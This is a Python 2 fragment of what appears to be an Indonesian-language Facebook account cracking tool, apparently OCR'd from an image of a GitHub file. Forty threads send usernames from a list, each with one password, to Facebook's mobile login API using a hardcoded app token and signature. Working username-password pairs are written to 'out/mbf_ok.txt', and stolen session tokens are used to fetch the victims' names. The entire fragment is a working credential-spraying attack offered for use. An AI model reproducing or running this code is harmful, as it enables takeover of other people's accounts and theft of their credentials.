 	try:
		file = open((idlist), "r")
		jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		for x in range(40):
			zedd = threading.Thread(target=scrak, args=())
			zedd.start()
			threads.append(zedd)
		for zedd in threads:
			zedd.join()
	except IOError:
		print ("\033[1;91m[!] File not found")
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()
		
def scrak():
	global berhasil,cekpoint,gagal,back,up
	try:
		os.mkdir('out')
	except OSError:
		pass
	try:
		buka = open(idlist, "r")
		up = buka.read().split()
		while file:
			username = file.readline().strip()
			url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(username)+"&locale=en_US&password="+(passw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6"
			data = urllib.urlopen(url)
			mpsh = json.load(data)
			if back == (len(up)):
				break
			if 'access_token' in mpsh:
				bisa = open("out/mbf_ok.txt", "w")
				bisa.write(username+"|"+passw+"\n")
				bisa.close()
				x = requests.get("https://graph.facebook.com/"+username+"?access_token="+mpsh['access_token'])
				z = json.loads(x.text)
				berhasil.append("\033[1;97m[ \033[1;92mOK✓\033[1;97m ] "+username+"|" +passw+" =>"+z['name'])
			elif 'www.facebook.com' in mpsh["error_msg"]:
				cek = open("out/mbf_cp.txt", "w")
				cek.write(username+"|"+passw+"\n")
				cek.close()
				cekpoint.append("\033[1;97m[ \033[1;93mCP✚\033[1;97m ] "+username+"|" +passw)
			else:
				gagal.append(username)
				back +=1
			sys.stdout.write('\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack    \033[1;91m:\033[1;97m '+str(back)+' \033[1;96m>\033[1;97m '+str(len(up))+' =>\033[1;92mLive\033[1;91m:\033[1;96m'+str(len(berhasil))+' \033[1;97m=>\033[1;93mCheck\033[1;91m:\033[1;96m'+str(len(cekpoint)));sys.stdout.flush()
	except IOError:
		print"\n\033[1;91m[!] Sleep"
		time.sleep(0.01)
	except requests.exceptions.ConnectionError:
		print"\033[1;91m[✖] No connection"
		